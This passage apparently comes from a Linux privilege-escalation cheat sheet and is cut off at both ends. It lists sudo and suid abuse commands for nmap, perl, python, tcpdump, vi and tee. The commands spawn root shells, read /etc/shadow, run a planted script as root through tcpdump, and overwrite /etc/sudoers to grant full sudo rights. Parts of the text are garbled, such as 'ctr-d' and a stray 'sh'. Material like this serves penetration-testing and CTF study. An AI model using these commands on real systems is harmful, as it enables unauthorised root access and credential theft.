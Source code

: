 ```
nmap --interactive
```

or

```
sudo nmap -iL /etc/shadow 2>&1 | grep root
```

##### python/perl/ruby/lua/etc

```
sudo perl
exec "/bin/bash";
ctr-d
```

```
sudo python
import os
os.system("/bin/bash")
```

`sh`

##### tcpdump

```
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

##### vi/vim

Can be abused like this:

```
sudo vi
:shell

:set shell=/bin/bash:shell    
:!bash
```

##### tee

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any\_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let’s say tidy.sh is executed as root on the server, we can write the below code in temp.sh

```
temp.sh
echo "example_user ALL=(ALL) ALL" > /etc/sudoers
```

or
